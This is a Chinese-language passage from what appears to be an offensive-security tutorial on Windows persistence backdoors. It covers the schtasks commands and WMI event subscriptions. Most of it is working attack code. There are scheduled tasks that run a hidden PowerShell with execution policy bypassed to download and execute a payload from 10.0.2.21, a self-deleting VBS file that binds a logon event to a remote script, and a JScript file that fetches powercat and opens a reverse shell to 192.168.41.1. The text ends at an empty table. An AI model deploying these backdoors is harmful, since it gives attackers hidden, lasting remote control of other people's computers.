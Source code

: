 ### [](#13-%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E5%90%8E%E9%97%A8)1.3 计划任务后门

-   schtasks
    -   /Create 创建新任务。
    -   /Delete 删除计划任务。
    -   /Query 显示所有计划任务。
    -   /Change 更改计划任务属性。
    -   /Run 按需运行计划任务。
    -   /End 中止当前正在运行的计划任务。
    -   /ShowSid 显示与计划的任务名称相应的安全标识符。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```powershell<br># schtasks 命令<br># 每天晚上 03:30 定时执行<br>schtasks /create /tn "TimedTask1" /tr C:\Users\Administrator\Desktop\TimedTask\Run.bat /sc DAILY /st 03:30 <br># statement A<br><br># 查询创建的任务<br>schtasks /query /tn TimedTask1 /v<br><br># 立即运行创建的任务<br>schtasks /run /tn TimedTask1<br><br># 删除任务<br>schtasks /delete /tn TimedTask1<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```powershell<br>#(X64) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br> <br>#(X64) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br> <br>#(X86) - On User Login<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System<br>  <br>#(X86) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br>  <br>#(X86) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br>``` |

### [](#14-wmi-%E6%97%A0%E6%96%87%E4%BB%B6%E5%90%8E%E9%97%A8)1.4 wmi 无文件后门

evil3.vbs -> 恶意VBS脚本。创建事件过滤器，捕获账户成功登陆的事件；创建活动脚本事件消费者，捕获到事件后执行远程脚本pnc.js;绑定过滤器和消费者。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```fallback<br>nslink="winmgmts:\\.\root\subscription:"<br><br>qstr="select * from __InstanceCreationEvent within 5 "        '每5秒查询一次“实例创建事件”'<br>qstr=qstr&"where targetinstance isa 'win32_NTLogEvent' and "<br>qstr=qstr&"targetinstance.EventCode='4624' "                  '实例名是win32_NTLogEvent'<br><br><br>set evtflt=getobject(nslink&"__EventFilter").spawninstance_   '创建事件过滤器'<br>evtflt.name="filtP1"                                          '定义过滤器的名字'<br>evtflt.EventNameSpace="root\cimv2"<br>evtflt.query=qstr                                             '定义查询语句'<br>evtflt.querylanguage="wql"                                    '定义查询语言(只能是wql)'<br>set fltpath=evtflt.put_                                       '注册过滤器，返回其链接'<br><br>set asec=getobject(nslink&"ActiveScriptEventConsumer").spawninstance_   '创建“活动脚本事件消费者”'<br>asec.name="consP1"                                                      '定义消费者的名字'<br>asec.scriptingengine="JScript"                                          '定义脚本语言<br>asec.ScriptText="GetObject(""script:http://192.168.41.1:8080/pnc.js"")"<br>set asecpath=asec.put_                                                  '注册消费者，返回其链接'<br><br>set fcbnd=getobject(nslink&"__FilterToConsumerBinding").spawninstance_  '创建过滤器和消费者的绑定'<br>fcbnd.filter=fltpath.path                                               '指定过滤器'<br>fcbnd.consumer=asecpath.path                                            '指定消费者'<br>fcbnd.put_                                                              '执行绑定'<br><br>dim fso<br>set fso = CreateObject("Scripting.FileSystemObject")<br>evilname=left(wscript.scriptfullname,instrrev(wscript.scriptfullname,"\")) <br>evilname=evilname& fso.GetFile(Wscript.scriptfullname).name<br>fso.DeleteFile(evilname) 'vbs删除自己<br>``` |

pnc.js -> 服务端恶意脚本。下载powercat.ps1，并使用其返回shell。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```javascript<br><?xml version="1.0"?><br><br><package><br><component id="testCalc"><br><br><script language="JScript"><br><br>var r = new ActiveXObject("WScript.Shell").Run("powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.41.1:8080/powercat-master/powercat.ps1');powercat -c 192.168.41.1 -p 6999 -e cmd"); <br><br></script><br><br></component><br></package><br>``` |

shell\_server.py -> 服务端监听shell的脚本。

|     |     |     |
| --- | --- | --- |